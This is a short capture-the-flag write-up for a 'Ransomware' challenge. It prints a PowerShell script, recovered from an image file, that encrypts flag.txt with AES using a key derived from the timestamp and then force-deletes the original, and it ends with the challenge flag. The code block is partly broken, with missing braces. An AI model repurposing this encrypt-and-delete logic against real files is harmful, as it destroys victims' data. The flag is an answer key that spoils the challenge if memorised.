


## Ransomware  



We are given a couples files to analyse, and they appear to be files retrieved from a ransomware attack.  

There is a `flag.txt.lock` file that contains the encrypted flag.  



Running `strings` on `Uto.jpg` will reveal the ransomware powershell script used to encrypt the flag.  

```powershell
$ErrorActionPreference = 'Stop'
$InputFile  = Join-Path -Path (Get-Location) -ChildPath 'flag.txt'
$OutputFile = "$InputFile.lock"
if (-not (Test-Path -LiteralPath $InputFile -PathType Leaf)) {
  throw "
$InputFile"
$UnixTime = [DateTimeOffset]::UtcNow.ToUnixTimeSeconds()
# key = MD5( UnixTimeSeconds as UTF-8 string ) -> 16 bytes (AES-128)
$md5 = [System.Security.Cryptography.MD5]::Create()
try {
  $keyMaterial = [Text.Encoding]::UTF8.GetBytes([string]$UnixTime)
  $Key = $md5.ComputeHash($keyMaterial)
} finally {
  $md5.Dispose()
# AES-CBC PKCS7
$AES = [System.Security.Cryptography.Aes]::Create()
$AES.Mode    = [System.Security.Cryptography.CipherMode]::CBC
$AES.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$AES.Key     = $Key
$AES.GenerateIV()
$in  = [IO.File]::OpenRead($InputFile)
$out = [IO.File]::Create($OutputFile)
try {
  $unixBytes = [BitConverter]::GetBytes([int64]$UnixTime)
  $out.Write($unixBytes, 0, $unixBytes.Length)
  $out.Write($AES.IV, 0, $AES.IV.Length)
  $enc = $AES.CreateEncryptor()
  $crypto = New-Object System.Security.Cryptography.CryptoStream(
    $out, $enc, [System.Security.Cryptography.CryptoStreamMode]::Write
  try {
    $in.CopyTo($crypto)
  } finally {
    $crypto.FlushFinalBlock()
    $crypto.Dispose()
finally {
  $in.Dispose()
  $out.Dispose()
  $AES.Dispose()
  [Array]::Clear($Key, 0, $Key.Length)
Remove-Item -LiteralPath $InputFile -Force
```

We can write a decryption script and recover the flag from `flag.txt.lock`.  

Flag: `THJCC{L1nK_R4Ns0mWar3_😭😭😭😭}`